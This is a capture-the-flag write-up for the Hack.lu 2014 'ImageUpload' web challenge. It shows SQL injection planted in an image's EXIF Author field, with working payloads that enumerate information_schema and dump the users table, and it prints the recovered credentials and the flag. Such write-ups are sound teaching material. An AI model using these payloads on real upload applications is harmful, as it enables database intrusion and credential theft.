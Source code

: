## Hack.lu CTF 2014 - ImageUpload (web 200)
##### 21-23/10/2014 (48hr)
___

### Description: 
In the Wild Wild Web, there are really bad guys. The sheriff doesn't know them all. 
Therefore, he needs your help. Upload pictures of criminals to this site and help 
the sheriff to arrest them. 
You can make this Wild Wild Web much less wild!!! 

Pictures will be deleted on regular basis!

___

### Solution

The login form is safe (sanitizes SQL injection, and \xbf\x27 exploit not allowed). The 
uploaded image is modified and we displaying image embeds the uploaded image (see images
"agnes 2- despicable me.jpg" and 9abbcf8b9fbb5971a0474cbbda30942e.jpg). So we can not in-
ject PHP code in image, because the image structure is modified.

However when we upload an image we see 5 more fields except the image: Width, Height,
Author, Manufacturer, Model. This reveals that we have an SQL DB to store the images.
So when we upload the image the insert statement should be like this:
```
	INSERT INTO some_table 
	VALUES (image_name, width, height, author, manufacturer, model);
```

We see that width and height have a 0 value, while the other 3 columns are NULL. This
is information from image metadata, so we try to insert code in image metadata: On 
Windows: Select Image -> Right Click -> Properties -> Details -> Set Author to ispo,
and upload the image.

We see the string "ispo" in the author column. Bingo! Now let's try our SQL injection.
What if I insert the name: foo','bar','code')-- ? The query will be:
```
	INSERT INTO some_table 
	VALUES (image_name, 0, 0, foo', 'bar', 'code')--, NULL, NULL);
```

The result will be:
```
	Width	Height	Author	Manufacturer	Model
	0	0	foo	bar		code
```

Now let's try to extract information:	
```
	Author: ispo', (SELECT SCHEMA()), 'bbb')#

	Width	Height	Author	Manufacturer	Model
	0	0	foo	chal		bbb
```

Database name is 'chal'. Let's find the tables from all databases:	
```
	Author: ispo', (SELECT GROUP_CONCAT(table_name) 
			FROM information_schema.tables 
			 WHERE table_schema != 'mysql' AND 
			       table_schema != 'information_schema'), 'bbb')#
```
			 
The Author column will contain the tables: brute,pictures,users. We use GROUP_CONCAT, 
because the SELECT statement should return 1 row and not more. So we merge the rows 
into 1 row. The table we want is users. Let's find its columns:
```
	Author: ispo', (SELECT GROUP_CONCAT(column_name) 
			FROM information_schema.columns 
			WHERE table_schema='chal' AND table_name='users'), 'bbb')#

	Width	Height	Author			Manufacturer	Model
	0	0	id,name,password	chal		bbb
```
			
Nice there are 3 columns. Let's find the rows:
```
	Author: ispo', (SELECT COUNT(*) FROM users), 'bbb')# 
```

So there are 2 rows. Now we can extract all table information with one query:
```
	Author: ispo', (SELECT GROUP_CONCAT(id,',',name,',',password) 
			FROM users LIMIT 1 OFFSET 0), 'bbb')#
```
			
And we get the requested results (see imageUpload.PNG): 
```
	1,sheriff,AO7eikkOCucCFJOyyaaQ,2,deputy,testpw
```

So there are 2 accounts:
```
	sheriff:AO7eikkOCucCFJOyyaaQ
	deputy:testpw
```

We go to the login form, we login with sheriff's credentials, and we get the flag:
	You are sucessfully logged in.
	Flag: `flag{1_5h07_7h3_5h3r1ff}`

___
